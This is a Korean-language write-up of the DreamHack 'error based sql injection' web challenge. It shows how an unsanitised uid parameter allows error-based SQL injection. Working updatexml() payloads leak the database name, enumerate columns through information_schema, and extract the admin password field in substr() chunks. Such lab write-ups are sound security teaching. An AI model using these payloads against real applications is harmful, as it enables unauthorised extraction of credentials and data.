

# error based sql injection

## 문제 설명

> DreamHack `error based sql injection` 문제입니다. WEB 문제입니다.

문제 페이지에 접속하면 `uid` 입력값이 아래 SQL 쿼리에 들어가는 형태로 표시된다.

```sql
SELECT * FROM user WHERE uid='{uid}';
```



## 풀이

### 분석

처음에는 `uid=admin`이나 인증 우회 payload를 넣어 보았지만, 조회 결과 행은 화면에 출력되지 않았다. 대신 작은 따옴표 하나를 넣으면 MariaDB syntax error가 그대로 노출되었다.

```text
(1064, "You have an error in your SQL syntax; ...")
```

결과가 직접 출력되지 않아도 DB 에러가 출력되면 error based SQL Injection으로 값을 뽑을 수 있다. MariaDB/MySQL 계열에서 자주 쓰는 `updatexml()`을 이용해 에러 메시지 안에 원하는 값을 넣는 방향으로 접근했다.

### 취약점

`uid` 파라미터가 쿼리에 직접 삽입되고 있었다.

```sql
SELECT * FROM user WHERE uid='{uid}';
```

따라서 문자열을 닫은 뒤 `updatexml()`을 실행할 수 있다. `updatexml()`은 잘못된 XPath를 받으면 에러 메시지에 두 번째 인자 일부를 포함해서 출력한다.

먼저 현재 DB 이름을 확인했다.

```sql
' and updatexml(1,concat(0x7e,(select database()),0x7e),1)-- 
```

응답에서 `users`가 노출된다.


이후 `information_schema.columns`에서 `user` 테이블 컬럼을 조회했다.

```sql
' and updatexml(
  1,
  concat(0x7e,(
    select group_concat(column_name)
    from information_schema.columns
    where table_schema=database()
      and table_name='user'
  ),0x7e),
  1
)-- 
```

`idx,uid,upw` 컬럼이 확인되었고, 관리자 계정의 `upw`에 플래그가 들어있다고 판단했다.


### 익스플로잇

에러 메시지에 출력되는 길이가 제한되므로 `substr()`로 값을 나누어 추출했다.

```sql
' and updatexml(1,concat(0x7e,(select substr(upw,1,16) from user where uid='admin'),0x7e),1)-- 
' and updatexml(1,concat(0x7e,(select substr(upw,17,16) from user where uid='admin'),0x7e),1)-- 
' and updatexml(1,concat(0x7e,(select substr(upw,33,16) from user where uid='admin'),0x7e),1)-- 
```

추출한 조각을 이어 붙이면 플래그 형식의 문자열이 완성된다.

## 플래그

```text
DH{REDACTED}
```

## 배운 점

조회 결과가 화면에 출력되지 않는 SQL Injection이어도 DB 에러가 그대로 노출되면 error based SQLi로 데이터를 추출할 수 있다. MariaDB/MySQL 환경에서는 `updatexml()`이나 `extractvalue()`처럼 에러 메시지에 인자가 포함되는 함수를 먼저 확인하면 빠르게 풀이할 수 있다.
